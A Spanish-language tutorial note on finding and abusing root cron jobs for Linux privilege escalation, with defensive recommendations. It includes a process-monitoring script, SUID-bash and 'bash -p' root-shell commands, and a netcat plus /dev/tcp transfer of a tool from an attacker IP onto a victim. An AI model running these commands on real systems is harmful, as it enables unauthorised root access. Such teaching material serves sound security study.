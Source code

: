 # Detección y explotación de tareas Cron

Tags: #Linux #CRON  #Escalada #Root #Privilegios #PSPY 

Una tarea **cron** es una tarea programada en sistemas Unix/Linux que se ejecuta en un momento determinado o en intervalos regulares de tiempo. Estas tareas se definen en un archivo **crontab** que especifica qué comandos deben ejecutarse y cuándo deben ejecutarse.

La detección y explotación de tareas cron es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Por ejemplo, si un atacante detecta que un archivo está siendo ejecutado por el usuario “root” a través de una tarea cron que se ejecuta a intervalos regulares de tiempo, y se da cuenta de que los permisos definidos en el archivo están mal configurados, podría manipular el contenido del mismo para incluir instrucciones maliciosas las cuales serían ejecutadas de forma privilegiada como el usuario ‘root’, dado que corresponde al usuario que está ejecutando dicho archivo.

Ahora bien, para detectar tareas cron, los atacantes pueden utilizar herramientas como **Pspy**. Pspy es una herramienta de línea de comandos que monitorea las tareas que se ejecutan en segundo plano en un sistema Unix/Linux y muestra las nuevas tareas que se inician.

Con el objetivo de reducir las posibilidades de que un atacante lograra explotar las tareas cron en un sistema, se recomienda llevar a cabo alguno de los siguientes puntos:

- **Limitar el número de tareas cron**: es importante limitar el número de tareas cron que se ejecutan en el sistema y asegurarse de que solo se otorgan permisos a tareas que requieren permisos especiales para funcionar correctamente. Esto disminuye la superficie de ataque y reduce las posibilidades de que un atacante pueda encontrar una tarea cron vulnerable.
- **Verificar los permisos de las tareas cron**: es importante revisar los permisos de las tareas cron para asegurarse de que solo se otorgan permisos a usuarios y grupos autorizados. Además, se recomienda evitar otorgar permisos de superusuario a las tareas cron, a menos que sea estrictamente necesario.
- **Supervisar regularmente el sistema**: es importante monitorear regularmente el sistema para detectar cambios inesperados en las tareas cron y para buscar posibles brechas de seguridad. Además, se recomienda utilizar herramientas de monitoreo de seguridad para detectar actividades sospechosas en el sistema.
- **Configurar los registros de la tarea cron**: se recomienda habilitar la opción de registro para las tareas cron, para poder identificar cualquier actividad sospechosa en las tareas definidas y para poder llevar un registro de las actividades realizadas por cada una de estas.

A continuación, se comparte el enlace al proyecto de Github correspondiente a la herramienta Pspy:

- **Herramienta Pspy**: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)


## CRON

* Directorios  Linux con capacidad de escritura
	* **/tmp/**
	* **/dev/shm/**

Las tareas CRON son tareas que se ejecutan en el sistema a intervalos regulares de tiempo. 

```bash 
❯ contrab -e       # Para definir una tarea CRON

```

* Podemos crearnos un Script llamado '**procmon.sh**', le damos privilegios de ejecución para ver las tareas que se están ejecutando, poder ver los procesos nuevos y antiguos. También podemos ver que  tipo de comandos se están ejecutando y ver cual proceso nos puede ayudar a escalar privilegios. 
   Podemos encontrar un archivo que lo este ejecutando root y además que otros usuarios lo puedan modificar.
   
```bash 
#!/bin/bash
	
function ctrl_c(){
	echo -e "\\n[!] Saliendo \\n"
	tput cnorm; exit 1
}
	
# Ctrl + c
trap ctrl_c INT
tput civis
old_process="$(ps -eo command)"

while true; do
	new_process="$(ps -eo command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
	old_process=$new_process
done	
```

Podemos hacer que el binario que encontramos que esta ejecutando algo, poder modificarlo a nuestra manera
```bash 
❯ chmod u+s /bin/bash              # Haremos que la bash sea SUID
```

```bash 
❯ watch -n 1 ls -l /bin/bash       # Miraremos cada seg. el permiso de /bin/bash

	# n = Tiempo de actualizacion de 1 seg 
```

```bash 
❯ bash -p                          # Nos lanzamos la bash privilegiada, despues de convertirla SUID
```


También podemos usar PSPY para ver las tareas CRON. 
* Nos vamos a la pagina del PSPY
* Nos dirigimos a los releases y nos descargamos el binario .sh  > **pspy64**

Para transferir el PSPY podemos usar la ruta **/dev/tcp** y después de transferirlo le damos permisos de ejecución. 
```bash 
❯ nc -nlvp 443 < pspy64                       # Colocaremos este comando en la maquina de atacante 
❯ cat < /dev/tcp/192.168.68.1/443 > pspy      # Leeremos con cat lo que se esta compartiendo por el puerto 443 y ese output meterlo como input a pspy en la maquina victima
❯ md5sum pspy                                 # Para verificar si el binario se ha transferido correctamente, el md5 que obtenemos en la maquina victima del pspy64 debe de ser igual al de la maquina de atacante 
```
